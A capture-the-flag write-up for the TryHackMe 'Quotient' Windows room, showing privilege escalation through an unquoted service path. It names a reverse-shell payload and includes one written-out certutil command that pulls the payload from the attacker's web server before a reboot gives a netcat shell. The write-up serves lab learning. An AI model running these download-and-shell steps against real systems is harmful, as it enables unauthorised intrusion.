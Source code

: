 ### Introduction
Link: https://tryhackme.com/room/quotient#
Created by: ben, JohnHammond, cmnatic, NightWolf, timtaylor
* * *
### Connecting
Pinging the IP address for this machine does not seem to resolve anything. I had to briefly look at another write-up to see if anyone else had issues. It seems RDP still works so I proceeded to simply connect to it and it worked.

![3cc90c64c1d1ac43d1aef70c73009f4e.png](../_resources/3cc90c64c1d1ac43d1aef70c73009f4e.png)

<p>
  <src="/_resources/3cc90c64c1d1ac43d1aef70c73009f4e.png">
</p>
  
* * *
### Reconnaissance
Right away we can tell that this server is an AWS Instance being hosted in **eu-west-1b** and is a t2.medium EC2 instance. Not crucially important, but interesting to point out.

Let's see what kind of permissions we have as the user "Sage".

![658494285c75fb47f7e816ce2fc218a1.png](../_resources/658494285c75fb47f7e816ce2fc218a1.png)

It looks like we're not very special and only have general access.

![3dadeb6debd6380cdab64b97820bbbaa.png](../_resources/3dadeb6debd6380cdab64b97820bbbaa.png)

Let's have a look around and see what is on this computer. So far the only thing that really stands out is the folder **windows nt**. Normally the **W** would be capitalized, same with **NT**. Not sure why this was deliberately changed, but we will keep it in mind if anything else comes up.

![a0b61d9dd05b25eb245f52e170b292a1.png](../_resources/a0b61d9dd05b25eb245f52e170b292a1.png)

Nothing else stands out withing the folders, maybe we can see what services are running on the machine.

Everything looks normal except for one. It has no description and is misspelled.

![95562cfa26ee77ee2229ff38837c2efb.png](../_resources/95562cfa26ee77ee2229ff38837c2efb.png)

Let's investigate.

![0ada677f68c1d969a7520527e7a983c4.png](../_resources/0ada677f68c1d969a7520527e7a983c4.png)

At this point, I was a bit stuck and not sure how to proceed. Clearly there is something about this service that is meant to be exploited. 

I am learning that it is ok to be stuck, part of PenTesting is research. You are not going to know everything for every engagement and it is important to be able to find the answers we need on an as needed basis.

With the help of Google, I came across this article which seems to fit the exact situation we are in.

**Link:** https://vk9-sec.com/privilege-escalation-unquoted-service-path-windows/#:~:text=When%20a%20service%20is%20created,of%20the%20time%20it%20is).

### Exploitation

So we are dealing with an **Unquoted Service Path**, now the name of the room makes a little more sense.

According to the article above, we should create a payload and drop it into that file path. So let's create that payload.

![69003b3b6fa29e0ca5cd9b402cc1815c.png](../_resources/69003b3b6fa29e0ca5cd9b402cc1815c.png)

Now we need to start a web server on our Kali machine.

![7eed70e4cd3a5000fb4542483de44f67.png](../_resources/7eed70e4cd3a5000fb4542483de44f67.png)

And we need to download the executable from our target machine.

![e2c62b94d766594d957550f4eabbe889.png](../_resources/e2c62b94d766594d957550f4eabbe889.png)

Now, we need to have the machine run that service, but we lack the permissions to start/stop them, so a reboot will be required.

But first, gotta make sure NetCat is listening.

![e57fff9a846ab29bc1461d3146275646.png](../_resources/e57fff9a846ab29bc1461d3146275646.png)

Now, the wait begins...
...
...
...
...
Still nothing, maybe there is an issue with the server?
Server is back up, IP is the same, and the revshell.exe is still there. What went wrong?

Well, as it turns out, it's the name of the .exe. I did not read the article carefully and missed the part where it said that the .exe file needs to be named something similar to what is in the service path, .ie, Devservice.exe.

Let's start over real quick.

![d65e82940e2f358055650fc96fb76da2.png](../_resources/d65e82940e2f358055650fc96fb76da2.png)

That's better.
Now we'll download this on the target machine.

`certutil -urlcache -split -f “http://10.13.27.44:9999/Devservice.exe” Devservice.exe`

And reboot the target machine.
Now we once again wait on NetCat.

...

Got it...

![f314cea54ab81f3928c495244f3b2faa.png](../_resources/f314cea54ab81f3928c495244f3b2faa.png)
* * *
### Post-Exploitation

Time to search for that flag.txt file.

And it looks like it's right on the Admin Desktop.

![b9983bdb900bafc38d417afd67737caa.png](../_resources/b9983bdb900bafc38d417afd67737caa.png)
* * *
### Lessons Learned

READ!!!

I tend to skimp documentation to get to the good stuff, I was in a hurry to try out the exploit without taking my time to actually read how it works. But as they say, failure is a better teacher than success. This will be something that sticks with me.
